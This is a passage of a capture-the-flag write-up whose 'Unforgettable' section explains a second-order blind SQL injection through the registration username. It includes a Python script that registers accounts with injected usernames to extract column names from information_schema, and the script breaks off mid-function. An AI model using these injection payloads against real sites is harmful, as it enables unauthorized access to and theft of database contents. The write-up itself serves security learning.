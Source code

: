 unserialization


## week4

### Unforgettable

* easy to find the double injection after signing in. Seems a blind-based one
* At first I find bool-based injection feasible since the results of username differ. But soon I find it hard to judge the result when injecting flag
* After changing payload to time-based (benchmark). All seems fine then :)

```python
# coding: utf-8
# -**- author: byc_404 -**-
import requests
import random
import time
import string
import re


def generate_random_str(randomlength=16):
    str_list = [random.choice(string.digits + string.ascii_letters) for i in range(randomlength)]
    random_str = ''.join(str_list)
    return str(random_str)


url = 'https://unforgettable.liki.link/'

s = requests.session()


def fuzz(i):
    email = generate_random_str(25) + '@' + '123.com'
    username = generate_random_str(30) + "aml'^(if(1,,0))^'1",
    data = {
        'username': username,
        'email': email,
        'password': '123',
    }
    s.post(url + 'register', data=data, allow_redirects=False)
    s.post(url + 'login', data={
        'email': email,
        'password': '123',
    })
    r = s.get(url + 'user')
    print(r.text)
    return r.text


def solve(i):
    email = generate_random_str(25) + '@' + str(generate_random_str(5)) + '.com'
    username = generate_random_str(30) + "gml'^(if(((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/regexp/**/'^ffflllaagggg')/**/regexp/**/'^%s'),1,0))^'1" % (str(i)),
    data = {
        'username': username,
        'email': email,
        'password': '123',
    }
    s.post(url + 'register', data=data, allow_redirects=False)
    s.post(url + 'login', data={
        'email': email,
```